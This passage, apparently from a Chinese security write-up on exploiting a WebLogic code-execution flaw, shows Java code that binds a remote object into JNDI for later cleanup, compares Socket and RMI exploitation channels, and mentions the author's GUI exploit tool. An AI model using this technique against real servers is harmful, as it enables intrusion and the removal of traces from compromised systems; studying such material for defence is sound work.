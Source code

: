 ```
            file = new File(path);
            out = new FileOutputStream(file);
            out.write("".getBytes());
        } catch (Exception e) {
            e.printStackTrace();
        } finally {
            try {
                out.close();
            } catch (Exception e) {
                e.printStackTrace();
            }
        }

    }

    /**
     * 注册远程类
     */
    public static void bind() {
        try {
            RemoteObjectImpl remote = new RemoteObjectImpl();
            Context ctx = new InitialContext();
            ctx.bind("RemoteObject", remote);
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}

```

这样最后反注册和清除残留文件的时候就不需要再发送Payload了，只要调用远程类的unbind方法就行。

0x04 Socket VS RMI
=====

| VS | Socket | RMI |
| :-: | :-: | :-: |
| 端口 | 需要额外端口可能被防火墙拦截 | 使用WebLogic本身端口 |
| 传输速率 | 通过Socket字节流较快 | 通过远程过程调用较慢 |

0x05 总结
=====

这里以创建Socket服务器的思想实现了漏洞利用，我们可以继续扩展服务器的功能，甚至其他的代码执行漏洞也可以尝试这种方式，在传输较大文件时建议优先使用Socket方式。最后，我开发了GUI程序集成了Socket和RMI两种利用方式，大家可以自主选择。

Socket利用方式![图片3](http://drops.javaweb.org/uploads/images/3612c66c25520f6f2217b4840cdca4de961ee5a4.jpg)

RMI利用方式![图片4](http://drops.javaweb.org/uploads/images/b948343b486ef78708fef92b6ee430d927b05b6c.jpg)
